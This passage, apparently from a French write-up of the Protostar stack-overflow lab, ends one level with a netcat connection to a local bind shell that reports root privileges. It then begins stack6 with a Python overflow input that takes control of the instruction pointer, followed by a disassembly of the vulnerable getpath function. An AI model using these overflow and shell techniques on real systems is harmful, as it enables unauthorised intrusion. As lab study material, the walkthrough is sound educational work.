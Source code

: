 Le programme semble alors gelé, c'est juste qu'il attend une connexion qu'on lui donne :

```bash
$ nc 127.0.0.1 4444 -v
127.0.0.1: inverse host lookup failed: Host name lookup failure
(UNKNOWN) [127.0.0.1] 4444 (?) open
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

## Level 6

On a un cas qui ressemble aux précédents :

```bash
$ python -c 'print "A"*80 + "BBBB"'  | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB
Segmentation fault
$ dmesg | tail -1
[44970.395686] stack6[2477]: segfault at 42424242 ip 42424242 sp bffffbc0 error 4
```

Mais en apparence seulement. La fonction `main` ne fait que appeller `getpath` que voici :

```nasm
getpath (int32_t arg_4h);
; var char *s @ ebp-0x4c
; var int32_t var_ch @ ebp-0xc
; arg int32_t arg_4h @ ebp+0x4
; var int32_t var_4h @ esp+0x4
0x08048484      push    ebp
0x08048485      mov     ebp, esp
0x08048487      sub     esp, 0x68
0x0804848a      mov     eax, str.input_path_please: ; 0x80485d0
0x0804848f      mov     dword [esp], eax ; const char *format
0x08048492      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x08048497      mov     eax, dword [stdout] ; obj.stdout__GLIBC_2.0
                                   ; 0x8049720
0x0804849c      mov     dword [esp], eax ; FILE *stream
0x0804849f      call    fflush     ; sym.imp.fflush ; int fflush(FILE *stream)
0x080484a4      lea     eax, [s]
0x080484a7      mov     dword [esp], eax ; char *s
0x080484aa      call    gets       ; sym.imp.gets ; char *gets(char *s)
0x080484af      mov     eax, dword [arg_4h]
0x080484b2      mov     dword [var_ch], eax
0x080484b5      mov     eax, dword [var_ch]
0x080484b8      and     eax, 0xbf000000
0x080484bd      cmp     eax, 0xbf000000
0x080484c2      jne     0x80484e4
0x080484c4      mov     eax, str.bzzzt___p ; 0x80485e4
0x080484c9      mov     edx, dword [var_ch]
0x080484cc      mov     dword [var_4h], edx
0x080484d0      mov     dword [esp], eax ; const char *format
0x080484d3      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x080484d8      mov     dword [esp], 1 ; int status
0x080484df      call    _exit      ; sym.imp._exit ; void _exit(int status)
0x080484e4      mov     eax, str.got_path__s ; 0x80485f0
0x080484e9      lea     edx, [s]
0x080484ec      mov     dword [var_4h], edx
0x080484f0      mov     dword [esp], eax ; const char *format
0x080484f3      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x080484f8      leave
0x080484f9      ret
```
